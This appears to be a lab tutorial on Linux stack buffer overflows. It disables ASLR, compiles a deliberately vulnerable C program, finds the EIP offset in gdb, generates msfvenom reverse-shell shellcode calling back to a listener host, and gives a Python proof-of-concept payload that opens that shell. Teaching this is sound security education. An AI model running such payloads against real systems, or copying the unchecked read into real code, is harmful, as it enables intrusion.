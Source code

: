# Linux Buffer Overflow Foundation
## 1. What is Buffer Overflow
Exploiting the behavior of a buffer overflow is a well-known security exploit. On many systems, the memory layout of a program, or the system as a whole, is well defined. By sending in data designed to cause a buffer overflow, it is possible to write into areas known to hold executable code and replace it with malicious code, or to selectively overwrite data pertaining to the program's state, therefore causing behavior that was not intended by the original programmer. Buffers are widespread in operating system (OS) code, so it is possible to make attacks that perform privilege escalation and gain unlimited access to the computer's resources. The famed Morris worm in 1988 used this as one of its attack techniques.

![bo_imagination.png](bo_imagination.png)

## 2. Overflowing Program on Linux
### 2.1 Setting up environment
First up, we need to turn off Address Space Layout Randomization (ASLR):

```bash
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Program source code:

```c
#include<stdio.h>
#include<unistd.h>

int overflow(){
  char buffer[500];
  int userinput;
  userinput = read(0, buffer, 700);
  printf("\nUser provided %d bytes. Buffer content: %s", userinput, buffer);
  return 0;
}

int main(int argc, char*argv[]){
  overflow();
  return 0;
}
```

In here, we will use complier `gcc` to compile to code

```sh
$ gcc oversize_overflow.c  -fno-stack-protector -z execstack -o oversize_overflow
```


### 2.2 Overriding EIP
First up, we know the buffer size around 500 bytes or more, let's check how long it will crash and override the `EIP`, so let's try to fuzz the program to crash

Let's make 500 bytes of `A` and send to program to see if it crash

```bash
$ python3 -c "print('A'*500)" | ./oversize_overflow
```

![image1.png](image1.png)

As we can see, the program works good, so let's try with bigger size:

```bash
$ python3 -c "print('A'*700)" | ./oversize_overflow
```

![image2.png](image2.png)

At this time, the program crashed with 700 bytes size. Now on, using the gdb debugger to determine and get exact offset and override the `EIP`:

```bash
$ gdb -q oversize_overflow
```

In my gdb debugger, I've already installed [peda](https://github.com/longld/peda) , so there are many tool you might not see or you can use another tool likewise is ok.
- Creating fuzz buffer to get exact stack size:

```sh
gdb-peda$ pattern create 700 1.txt
Writing pattern of 700 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```

![image3.png](image3.png)

Here is the reuslt, and we can see the `EIP` (`0x4e734138`) point to invalid address, so the program crashed. Now, we are going to get exact size:

```sh
gdb-peda$ pattern offset 0x4e734138
1316176184 found at offset: 516
```

Get back to terminal, create the basic exploit to see if it overrided:

```sh
$ python -c "print('A'*516+'B'*4+'C*100')" > input.txt
```

Run the input file in gdb debugger, we can see the `EIP` overrided with `0x42424242` (meant `BBBB`). We are completely done with overriding the `EIP`.

![image4.png](image4.png)

### 2.3 Execute the Shellcode
#### 2.3.1 Shellcode generation
To generate the shellcode, in this section we will use msfvernom to genterate it

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.1.9 lport=4444 -b "\x00" -f python -o payload.py --platform linux -a x86
```

- Options description:

```sh
-p: Which mean payload
-b: bad characters caused crash
-f: file type
-o: output
-a: architecture
--platform: platform for the payload
lhost: listening host
lport: listening port
```

![image5.png](image5.png)

#### 2.3.2 Finding the returning address to execute the shellcode
We got the shellcode, now we need to find the address to override the `EIP` and point it to the shellcode to make it execute. To do this, we will make `A` buffer and open the `gdb`.

```bash
$ python -c "print('A'*700)" > input.txt

gdb-peda$ r < input.txt
```

After run, the program will be crashed, use `x/20wx $esp-0x230` to show stack similar with below picture.

![image6.png](image6.png)

In the picture, we can see the buffer start in `0xffffd030 + 0x8`, so `0xffffd038` will be our return address

#### 2.3.3 Proof of Concept (PoC)
We will edit the `payload.py` which we've already created above:

```python
#!/usr/bin/python3
import struct

buf =  b""
buf += b"\xdb\xc3\xd9\x74\x24\xf4\x5d\x29\xc9\xbe\x4d\x2c\x0e"
buf += b"\xe0\xb1\x12\x83\xed\xfc\x31\x75\x13\x03\x38\x3f\xec"
buf += b"\x15\xf3\xe4\x07\x36\xa0\x59\xbb\xd3\x44\xd7\xda\x94"
buf += b"\x2e\x2a\x9c\x46\xf7\x04\xa2\xa5\x87\x2c\xa4\xcc\xef"
buf += b"\x6e\xfe\x2e\xe6\x06\xfd\x30\xe9\x8a\x88\xd0\xb9\x55"
buf += b"\xdb\x43\xea\x2a\xd8\xea\xed\x80\x5f\xbe\x85\x74\x4f"
buf += b"\x4c\x3d\xe1\xa0\x9d\xdf\x98\x37\x02\x4d\x08\xc1\x24"
buf += b"\xc1\xa5\x1c\x26"

with open('input.txt', 'wb') as file:
    offset = 516
    nop = b'\x90'*16
    junk = b'A'
    ret_add = struct.pack('<L', 0xffffd038)
    payload = nop + buf + junk * (offset - 16 -len(buf)) + ret_add
    file.write(payload)
```

After run we have text file `input.txt`

![image7.png](image7.png)

Finally, we got the result, shellcode is connected

![image8.png](image8.png)

![image9.png](image9.png)

------------------------------------------------------- Done -------------------------------------------------------
